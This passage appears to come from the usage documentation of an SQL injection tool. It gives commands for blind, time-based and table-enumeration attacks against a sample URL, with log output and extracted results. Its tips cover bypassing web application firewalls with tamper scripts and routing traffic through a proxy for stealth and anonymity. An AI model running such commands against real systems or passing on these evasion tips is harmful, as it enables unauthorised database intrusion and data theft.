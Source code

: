   ```json
    ],
    "timestamp": "2025-05-15 17:29:00"
  }
  ```
- **Tips**: Use with tamper scripts (`-t randomcase`) to bypass WAFs.

#### Blind Injection
- **Purpose**: Extract data using boolean-based blind SQL injection.
- **Usage**:
  ```bash
  python3 sql_blaze.py -a blind -u "http://example.com?id=1" -o output_dir
  ```
- **Output**:
  ```
  2025-05-15 17:29:00 - INFO - Blind injection extracted data to output_dir/blind_results.txt
  ```
- **Result File** (`output_dir/blind_results.txt`):
  ```
  Database name: testdb
  ```
- **Tips**: Slow but stealthy; combine with proxy (`-p`) for anonymity.

#### Time-based Injection
- **Purpose**: Detect vulnerabilities via response delays.
- **Usage**:
  ```bash
  python3 sql_blaze.py -a time-based -u "http://example.com?id=1" -o output_dir
  ```
- **Output**:
  ```
  2025-05-15 17:29:00 - INFO - Time-based injection results saved to output_dir/time_based_results.txt
  ```
- **Result File** (`output_dir/time_based_results.txt`):
  ```
  Time-based injection successful
  ```
- **Tips**: Effective for servers without error messages.

#### Enumeration
- **Purpose**: Extract database information (e.g., table names).
- **Usage**:
  ```bash
  python3 sql_blaze.py -a enumerate -u "http://example.com?id=1" -o output_dir
  ```
- **Output**:
  ```
  2025-05-15 17:29:00 - INFO - Database enumeration saved to output_dir/enumerate_results.txt
  ```
- **Result File** (`output_dir/enumerate_results.txt`):
  ```
  Table: users
  Table: orders
  ```
- **Tips**: Use with **PatternSentry** to analyze extracted data.
